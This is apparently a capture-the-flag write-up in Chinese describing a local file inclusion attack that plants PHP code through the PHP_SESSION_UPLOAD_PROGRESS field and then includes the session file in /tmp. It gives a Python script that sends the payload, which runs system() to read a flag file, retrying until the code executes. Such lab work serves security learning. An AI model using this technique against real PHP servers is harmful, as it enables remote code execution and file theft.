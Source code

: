 # 思路
	- session上传文件然后include
- # 脚本
	- 多次执行test函数直到其产生回显即可
	- ```python
	  def test(x):
	      r = base_post(
	          url,
	          params={"file": "/tmp/sess_x"},
	          data={"PHP_SESSION_UPLOAD_PROGRESS": "<?php echo 123123; system('cat /nssctfasdasdflag')?>"},
	          files={"file": ("a.txt", io.BytesIO(b"a" * 1024 * 50))},
	          cookies={"PHPSESSID": "x"},
	      )
	      if len(r.text) < 100 and "hacker" in r.text:
	          return "waf"
	      if "123123" in r.text:
	          return r.text
	      return None
	  
	  ```